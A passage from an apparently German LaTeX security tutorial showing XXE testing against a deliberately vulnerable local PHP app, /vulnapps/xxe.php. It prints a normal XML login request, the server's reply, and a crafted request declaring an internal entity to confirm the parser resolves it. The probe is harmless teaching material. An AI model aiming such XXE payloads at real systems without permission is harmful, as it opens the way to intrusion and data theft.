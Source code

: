 Eine POST-Anforderung an die \texttt{xxe.php}-Datei mit XML-Daten gesendet, die im folgenden Screenshot gezeigt werden:

\begin{LaTeXCode}[caption={POST Anfrage zu PHP-Datei},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

	<root>
		<username>sahil</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet werden, dass die Anwendung in der HTTP-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die XML-Daten geparst werden.

\newpage

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username} Element mit \&u verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll nochmal beachtet werden, dass die Anwendung der interne Einheit auflöst und die XXE-Sicherheitsanfälligkeit erfolgreich bestätigt.\\


